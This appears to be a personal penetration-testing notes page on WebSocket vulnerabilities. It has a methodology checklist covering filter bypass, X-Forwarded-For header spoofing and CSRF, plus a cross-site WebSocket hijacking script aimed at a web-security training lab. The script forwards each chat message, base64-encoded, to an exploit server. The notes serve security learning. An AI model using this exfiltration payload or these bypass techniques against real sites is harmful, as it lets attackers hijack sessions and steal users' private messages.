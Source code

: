 ```yaml
---
title: "WebSockets"
layout: notes
tags:
  - webapp
  - methodology
  - websockets
---
```

## Summary

WebSockets are a technology best used for quick streams of data with no care for verifying the contents or double checking the client received it. They are full duplex over HTTP, used in modern webapps. Useful in low latency situations as a WebSocket once opened will sit quietly until it received a message from the other end. Exploiting a WebSocket has more to do with the technology it interacts with than the specific WebSocket technology itself. As with any web request the messages and handshake can be manipulated, and at worst a session can be hijacked from another user. 

## Methodology

When looking for WebSocket vulnerabilities ask/try the following:
- [ ] **What technologies does the WebSocket interact with?**
- [ ] **Is the data being encoded or encrypted locally before sending the message?**
- [ ] **Are there any filters or protections in place?**
	- [ ] try different encodings or obfuscation to bypass filters
	- [ ] try `X-Forwarded-For` or other headers to bypass IP blocking restrictions
- [ ] **Is this functionality vulnerable to CSRF?**
	- [ ] try to create a CSRF poc to hijack a session

## Tools/Examples

```
<script> 
    // Creating a new WebSocket instance and connecting to the specified URL 
    var ws = new WebSocket('wss://0a62001b032b8245813a992b003a00be.web-security-academy.net/chat'); 

    // Event handler for when the WebSocket connection is successfully opened 
    ws.onopen = function() { 
        // Sending the "READY" message to the server upon successful connection 
        ws.send("READY"); 
    }; 

    // Event handler for when a message is received from the WebSocket 
    ws.onmessage = function(event) { 
        // Sending a fetch request to an exploit server with the received message encoded in base64 
        fetch('https://exploit-0a9c00ef034282b3815a98f201d600bb.exploit-server.net/exploit?msg=' + btoa(event.data)); 
    }; 
</script> 
```





